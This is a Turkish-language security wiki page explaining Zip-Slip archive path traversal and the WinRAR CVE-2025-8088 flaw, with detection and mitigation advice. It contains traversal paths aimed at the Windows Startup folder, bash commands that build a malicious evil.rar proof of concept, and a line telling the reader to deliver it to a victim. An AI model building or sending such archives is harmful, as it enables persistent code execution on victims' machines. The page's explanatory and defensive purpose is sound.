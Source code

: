 # Archive Extraction Path Traversal ("Zip-Slip" / WinRAR CVE-2025-8088)

{{#include ../banners/hacktricks-training.md}}

## Genel Bakış

Birçok arşiv formatı (ZIP, RAR, TAR, 7-ZIP, vb.) her bir girişin kendi **iç yolunu** taşımasına izin verir. Bir çıkarım aracı bu yolu körü körüne dikkate aldığında, `..` veya **mutlak bir yol** (örneğin `C:\Windows\System32\`) içeren bir dosya adı, kullanıcı tarafından seçilen dizinin dışına yazılacaktır. Bu tür bir zafiyet, *Zip-Slip* veya **arşiv çıkarım yolu geçişi** olarak yaygın olarak bilinir.

Sonuçlar, rastgele dosyaların üzerine yazmaktan, Windows *Başlangıç* klasörü gibi bir **oto çalıştırma** konumuna bir yük bırakılarak doğrudan **uzaktan kod yürütme (RCE)** elde etmeye kadar uzanır.

## Temel Sebep

1. Saldırgan, bir veya daha fazla dosya başlığının içerdiği bir arşiv oluşturur:
* Göreli geçiş dizileri (`..\..\..\Users\\victim\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\payload.exe`)
* Mutlak yollar (`C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\payload.exe`)
2. Mağdur, gömülü yolu temizlemek veya seçilen dizinin altına çıkarım yapmayı zorlamak yerine, gömülü yola güvenen savunmasız bir araçla arşivi çıkarır.
3. Dosya, saldırganın kontrolündeki bir konuma yazılır ve sistem veya kullanıcı o yolu tetiklediğinde çalıştırılır/yüklenir.

## Gerçek Dünya Örneği – WinRAR ≤ 7.12 (CVE-2025-8088)

Windows için WinRAR ( `rar` / `unrar` CLI, DLL ve taşınabilir kaynak dahil) çıkarım sırasında dosya adlarını doğrulamada başarısız oldu. Kötü niyetli bir RAR arşivi, aşağıdaki gibi bir girişi içeren:
```text
..\..\..\Users\victim\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\payload.exe
```
**seçilen çıktı dizininin dışında** ve kullanıcının *Startup* klasörünün içinde sona erecektir. Windows, oturum açtıktan sonra orada bulunan her şeyi otomatik olarak çalıştırır ve *kalıcı* RCE sağlar.

### PoC Arşivi Oluşturma (Linux/Mac)
```bash
# Requires rar >= 6.x
mkdir -p "evil/../../../Users/Public/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup"
cp payload.exe "evil/../../../Users/Public/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/"
rar a -ep evil.rar evil/*
```
Seçenekler:
* `-ep`  – dosya yollarını tam olarak verildiği gibi sakla (önceki `./` kısmını **kaldırma**).

`evil.rar` dosyasını kurbanınıza ulaştırın ve onu savunmasız bir WinRAR sürümü ile çıkarmasını söyleyin.

### Doğada Gözlemlenen Sömürü

ESET, özelleştirilmiş arka kapıları dağıtmak ve fidye yazılımı operasyonlarını kolaylaştırmak için CVE-2025-8088'i kötüye kullanan RAR arşivleri ekleyen RomCom (Storm-0978/UNC2596) oltalama kampanyalarını bildirdi.

## Tespit İpuçları

* **Statik inceleme** – Arşiv girişlerini listeleyin ve `../`, `..\\`, *mutlak yollar* (`C:`) veya kanonik olmayan UTF-8/UTF-16 kodlamalarını içeren herhangi bir ismi işaretleyin.
* **Sandbox çıkarımı** – Sonuçta oluşan yolların dizin içinde kalmasını doğrulamak için *güvenli* bir çıkarıcı (örneğin, Python’un `patool`, 7-Zip ≥ en son, `bsdtar`) kullanarak geçici bir dizine sıkıştırmayı açın.
* **Uç Nokta izleme** – WinRAR/7-Zip vb. tarafından bir arşiv açıldıktan kısa bir süre sonra `Startup`/`Run` konumlarına yazılan yeni çalıştırılabilir dosyalar için uyarı verin.

## Azaltma ve Güçlendirme

1. **Çıkarıcıyı güncelleyin** – WinRAR 7.13, uygun yol sanitizasyonu uygular. Kullanıcılar, WinRAR'ın otomatik güncelleme mekanizması olmadığı için bunu manuel olarak indirmelidir.
2. Mümkünse arşivleri **“Yolları yok say”** seçeneği ile çıkarın (WinRAR: *Çıkar → "Yolları çıkarma"*) .
3. Güvenilmeyen arşivleri **bir sandbox** veya sanal makine içinde açın.
4. Uygulama beyaz listesi uygulayın ve kullanıcı yazma erişimini otomatik çalıştırma dizinleri ile sınırlayın.

## Ek Etkilenen / Tarihsel Durumlar

* 2018 – Snyk tarafından birçok Java/Go/JS kütüphanesini etkileyen büyük *Zip-Slip* tavsiyesi.
* 2023 – `-ao` birleştirmesi sırasında benzer geçiş için 7-Zip CVE-2023-4011.
* Yazma işleminden önce `PathCanonicalize` / `realpath` çağrısını yapmayan herhangi bir özel çıkarım mantığı.

## Referanslar

- [BleepingComputer – WinRAR sıfır-gün açığı arşiv çıkarımında kötü amaçlı yazılım yerleştirmek için kullanıldı](https://www.bleepingcomputer.com/news/security/winrar-zero-day-flaw-exploited-by-romcom-hackers-in-phishing-attacks/)
- [WinRAR 7.13 Değişiklik Günlüğü](https://www.win-rar.com/singlenewsview.html?&L=0&tx_ttnews%5Btt_news%5D=283&cHash=a64b4a8f662d3639dec8d65f47bc93c5)
- [Snyk – Zip Slip güvenlik açığı raporu](https://snyk.io/research/zip-slip-vulnerability)

{{#include ../banners/hacktricks-training.md}}

